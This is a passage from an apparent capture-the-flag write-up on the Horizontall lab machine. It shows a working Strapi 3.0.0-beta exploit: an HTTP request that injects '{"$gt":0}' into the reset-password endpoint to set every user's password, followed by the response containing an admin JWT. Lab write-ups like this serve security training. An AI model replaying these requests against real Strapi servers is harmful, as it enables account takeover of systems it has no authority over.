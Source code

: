 ```http
[{"id":1,"name":"wail","description":"This is good service","stars":4,"created_at":"2021-05-29T13:23:38.000Z","updated_at":"2021-05-29T13:23:38.000Z"},{"id":2,"name":"doe","description":"i'm satisfied with the product","stars":5,"created_at":"2021-05-29T13:24:17.000Z","updated_at":"2021-05-29T13:24:17.000Z"},{"id":3,"name":"john","description":"create service with minimum price i hop i can buy more in the futur","stars":5,"created_at":"2021-05-29T13:25:26.000Z","updated_at":"2021-05-29T13:25:26.000Z"}]
```

I could do a GET on `/reviews/1` to extract the first review. I played with this a little bit, trying to extract reviews that were not listed. I also tried to POST some reviews. 

Next, I checked for known vulnerabilities in Strapi and found one on [Exploit Database](https://www.exploit-db.com/exploits/50239). This exploit used two vulnerabilities of a beta version of Strapi. It first uses an injection vulnerability in the reset password endpoint to change every user's password. Then it uses the `plugins/install` endpoint to execute arbitrary code.

Before I could use the exploit, I had to make sure the version of Strapi was vulnerable. I navigated to `http://api-prod.horizontall.htb/admin/strapiVersion` and it returned the version '3.0.0-beta.17.4'. This is the vulnerable version.


I then used the first vulnerability to change everyone's passwords to 'SuperStrongPassword1'.

```http
POST /admin/auth/reset-password HTTP/1.1
Host: api-prod.horizontall.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://api-prod.horizontall.htb/admin/auth/forgot-password
Content-Type: application/json
Origin: http://api-prod.horizontall.htb
Content-Length: 146
Connection: close

{
    "code" : {"$gt":0},
    "password" : "SuperStrongPassword1",
    "passwordConfirmation" : "SuperStrongPassword1"
}
```

The answer to that call gave me JWT that I could then use to make authenticated calls. 

```http
HTTP/1.1 200 OK
Server: nginx/1.14.0 (Ubuntu)
Date: Thu, 09 Jun 2022 22:32:23 GMT
Content-Type: application/json; charset=utf-8
Content-Length: 249
Connection: close
Vary: Origin
Access-Control-Allow-Origin: *
Access-Control-Allow-Credentials: true
Content-Security-Policy: img-src 'self' http:; block-all-mixed-content
Strict-Transport-Security: max-age=31536000; includeSubDomains
X-Frame-Options: SAMEORIGIN
X-XSS-Protection: 1; mode=block
X-Powered-By: Strapi <strapi.io>

{"jwt":"eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZCI6MywiaXNBZG1pbiI6dHJ1ZSwiaWF0IjoxNjU0ODEzOTQzLCJleHAiOjE2NTc0MDU5NDN9.GeHHgPPSRxWh2asrmUDIwxktHcl6xyTsPEmFFBEY7b4","user":{"id":3,"username":"admin","email":"admin@horizontall.htb","blocked":null}}
```
